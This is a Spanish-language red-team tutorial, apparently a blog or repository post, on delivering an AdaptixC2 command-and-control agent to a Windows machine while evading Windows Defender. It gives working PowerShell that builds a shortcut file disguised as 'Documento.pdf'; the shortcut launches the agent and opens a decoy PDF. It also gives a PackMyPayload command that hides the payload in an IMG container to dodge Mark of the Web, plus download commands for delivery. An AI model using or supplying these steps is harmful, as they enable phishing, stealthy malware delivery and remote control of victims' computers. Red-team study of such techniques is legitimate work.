 # Método de ejecución Agente C2

# Método de ejecución Agente C2

## Introducción

En este post voy a describir una manera de como un atacante o miembros de un Red Team pueden elaborar un fichero malicioso y ser ejecutado en la maquina objetivo con el fin de obtener acceso sin ser detectado por el antivirus.

Para este post he utilizado el Command and Control AdaptixC2, no voy a entrar en profundidad en como se instala ya que en la propia documentación viene bien detallado el proceso. Aunque si encontráis algún inconveniente a la hora de instalar la versión de GO os recomiendo que descarguéis directamente el paquete de la web oficial [aqui](https://go.dev/dl/). 

Os dejo el repositorio de AdaptixC2  [aqui](https://github.com/Adaptix-Framework/AdaptixC2) y su documentacion [aqui](https://adaptix-framework.gitbook.io/adaptix-framework).

## Creación de listener y Agente

Una vez hemos ejecutado el servidor y el cliente, nos aparecerá la interfaz del cliente, lo primero que debemos hacer es crear un listener al que se conectara nuestro agente generado posteriormente.

Para este Post voy a utilizar un listener de tipo HTTP, para ello debemos hacer clic en la esquina superior izquierda en el icono de los cascos.

![image.png](image.png)

Una vez abierta la pestaña de los listeners hacemos clic derecho > Create y nos aparecerá la siguiente ventana:

![image.png](imagenes/image%201.png)

Desde aquí podemos configurar nuestro listener, para esta prueba solo he realizado cambios en la pestaña Main settings, pero también se pueden configurar las cabeceras HTTP, una pagina de error y la pagina del Payload.

Indicamos un nombre y añadimos la ip de la maquina donde se ejecuta el servidor y un puerto, al final debería quedar algo así:

![image.png](imagenes/image%202.png)

Para finalizar este paso solo nos queda generar el agente, para ello hacemos clic derecho en el listener recién creado.

![image.png](imagenes/image%203.png)

Nos aparecerá la siguiente ventana:

![image.png](imagenes/image%204.png)

Para esta prueba no he realizado cambios, pero como se puede observar podemos modificar la arquitectura, el tipo de formato, el campo Sleep, cuando queremos que termine la conexión remota y el tiempo activo del agente.

Hacemos clic en Generate y guardamos nuestro agente.

## Shell Link

Para la ejecución de nuestro agente voy a utilizar un fichero .lnk generado con PowerShell el cual va ejecutar nuestro agente y un pdf que queramos mostrarle al usuario objetivo como señuelo.

Esta opción es interesante ya que aunque el usuario tenga activado la opción de ver la extensión en el explorador, la extensión .lnk no va a ser visible.

```bash
$wsh = New-Object -ComObject WScript.Shell
$lnk = $wsh.CreateShortcut("C:\Payloads\Documento.pdf.lnk")

$lnk.TargetPath = "%COMSPEC%"

$lnk.Arguments = "/C start agent.64.exe && start Documento.pdf"

$lnk.IconLocation = "C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe,13"
$lnk.Save()
```

Si el icono de pdf no se muestra se puede cambiar haciendo clic en propiedades y cambiar icono.

![image.png](imagenes/image%205.png)

## Container

Una vez tenemos los tres ficheros: Documento.pdf(señuelo), Agent.64.exe(payload) y Documento.pdf.lnk(trigger) pasamos a empaquetarlos en un único comprimido así evitamos el tener que enviar múltiples ficheros al objetivo.

Mark of the web(MotW) es un identificador de zona que se utiliza para marcar los archivos descargados de Internet como potencialmente inseguros.  Esto se puede ver en un archivo consultando sus propiedades en el Explorador o utilizando PowerShell.

![image.png](imagenes/image%206.png)

![image.png](imagenes/image%207.png)

Algunos  formatos de comprimidos admiten archivos ocultos, y otros no propagan MotW.  [Este repositorio](https://github.com/nmantani/archiver-MOTW-support-comparison) de [Nobutaka Mantani](https://x.com/nmantani) contiene una comparación de las propagaciones de MotW.

Para empaquetar nuestros ficheros voy a utilizar la herramienta [PackMyPayload](https://github.com/mgeeky/PackMyPayload).

Añado los ficheros a una carpeta.

![image.png](imagenes/image%208.png)

Y los empaqueto en un fichero con formato IMG ocultando agent.64.exe y Documento.pdf utilizando el parámetro `-H` .

```bash
python3 PackMyPayload.py -H agent.64.exe,Documento.pdf ~/Desktop/container ~/Desktop/container/package.img
```

## Envió y ejecución

Por ultimo transferimos nuestro fichero generado a la maquina objetivo levantando un servidor con python:

```bash
python -m http.server 8000
```

y en la maquina objetivo desde PowerShell lo descargamos:

```bash
 iwr -Uri http://192.168.154.128:8000/package.img -Outfile package.img
```

Abrimos package.img y abrimos el fichero que contiene produciendo así la conexión del agente con nuestro Command and control y todo ello con Windows Defender activado.

![image.png](imagenes/image%209.png)

![image.png](imagenes/image%2010.png)

![image.png](imagenes/image%2011.png)

Recuerdo que este post es con fines educativos y éticos y no se debe emplear para fines ilegales.

